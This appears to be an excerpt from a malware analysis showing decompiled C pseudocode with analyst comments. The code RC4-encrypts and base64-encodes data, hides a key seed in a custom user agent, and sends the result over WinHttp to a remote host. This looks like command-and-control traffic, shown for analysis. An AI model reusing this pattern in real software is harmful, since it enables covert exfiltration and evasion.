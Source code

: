 ```c
          md5_hash[0],
          md5_hash[1],
          md5_hash[2],
          md5_hash[3],
          md5_hash[4],
          md5_hash[5],
          v34,
          ahoy_plaintext);                      // do RC4
  (*((void (__thiscall **)(CClientSock *, LPVOID *, int, int))this->vtable + 3))(this, lpOptional, v11, v9);// base64 encode
  /* ... */
  if ( ObtainUserAgentString(0, pszUAOut, &cbSize) )
  {
      /* ... */
  }
  /* ... */
  rand_str = glo_rand_string;
  pszUAOut[cbSize - 2] = 0;
  u_itoa((void **)Source, rand_str);
  mbstowcs_s(&PtNumOfCharConverted, DstBuf, 0x200u, pszUAOut, strlen(pszUAOut));
  wcscat_s(DstBuf, 0x200u, L"; ");
  if ( a8 )
  {
    v19 = (const wchar_t *)Source;
    if ( v41 >= 8 )
      v19 = Source[0];
  }
  else
  {
    v19 = L"CLR";
  }
  wcscat_s(DstBuf, 0x200u, v19);
  wcscat_s(DstBuf, 0x200u, L")");               // key seed in user agent!
  v20 = WinHttpOpen(DstBuf, 0, 0, 0, 0);
  v37 = v20;
  if ( v20 )
  {
    v21 = (const WCHAR *)&this->field_14;
    if ( this->field_28 >= 8u )
      v21 = *(const WCHAR **)v21;
    WinHttpCloseHandle = (void (__stdcall *)(HINTERNET))::WinHttpCloseHandle;
    http_hdl = WinHttpConnect(v20, v21, 0x50u, 0);
    hInternet = http_hdl;
    if ( http_hdl )
    {
      v24 = WinHttpOpenRequest(http_hdl, (LPCWSTR)&this->http_method_str, 0, 0, 0, 0, 0);
      if ( v24 )
      {
        v25 = lpOptional;
        if ( v45 >= 8 )
          v25 = (LPVOID *)lpOptional[0];
        v38 = WinHttpSendRequest(v24, 0, 0, v25, 2 * v44, 2 * v44, 0);
        if ( v38 )
        {
          v38 = WinHttpReceiveResponse(v24, 0);
          if ( v38 )
          {
            v26 = (DWORD *)&this->field_48;
            do
            {
              while ( 1 )
              {
                ahoy_plaintext = &this->field_48;
```
